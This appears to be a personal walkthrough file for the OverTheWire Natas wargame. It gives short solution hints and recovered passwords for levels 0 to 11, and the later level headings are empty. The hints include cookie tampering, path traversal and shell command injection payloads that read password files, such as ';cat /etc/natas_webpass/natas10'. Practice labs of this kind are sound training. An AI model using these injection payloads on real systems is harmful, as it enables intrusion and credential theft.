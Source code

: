# [The Natas wargame](https://overthewire.org/wargames/natas/)
url: [Natas](http://natas0.natas.labs.overthewire.org)
Username: natas0
Password: natas0

### Level 0 → Level 1
Check in the comments
**password:**
gtVrDuiDfck831PqWsLEZy5gyDz1clto

### Level 1 → Level 2
F12...
**password:**
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

### Level 2 → Level 3
Add /files to url
**password:**
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

### Level 3 → Level 4
See /robots.txt file
-> /s3cr3t
**password:**
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

### Level 4 → Level 5
Reffer from natas5
**password:**
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

### Level 5 → Level 6
Change loggedin cookie to 1
**password:**
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

### Level 6 → Level 7
Add /includes/secret.inc to url
-> Insert FOEIUWGHFEEUHOFUOIU in textbox
-> 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
**password:**
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

### Level 7 → Level 8
page=/etc/natas_webpass/natas8
**password:**
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

### Level 8 → LeveL 9
Using [PHP sandbox](https://sandbox.onlinephpfunctions.com/)
```php
echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362'))); 
```  
-> oubWYf2kBq
-> Insert to textbox
-> W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
**password:**  
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

### Level 9 → Level 10
Insert ';cat /etc/natas_webpass/natas10'
**password:**
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

### Level 10 → Level 11
Insert '.* /etc/natas_webpass/natas11 #'
**password:**
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

### Level 11 → Level 12

**password:**

### Level 12 → Level 13

**password:**

### Level 13 → Level 14

**password:**

### Level 14 → Level 15

**password:**

### Level 15 → Level 16

**password:**

### Level 16 → Level 17

**password:**

### Level 17 → Level 18

**password:**

### Level 18 → Level 19

**password:**

### Level 19 → Level 20

**password:**

### Level 20 → Level 21

**password:**

### Level 21 → Level 22

**password:**

### Level 22 → Level 23

**password:**

### Level 23 → Level 24

**password:**

### Level 24 → Level 25

**password:**

### Level 25 → Level 26

**password:**

### Level 26 → Level 27

**password:**

### Level 27 → Level 28

**password:**

### Level 28 → Level 29

**password:**

### Level 29 → Level 30

**password:**

### Level 30 → Level 31

**password:**

### Level 31 → Level 32

**password:**

### Level 32 → Level 33

**password:**

### Level 33 → Level 34

**password:**
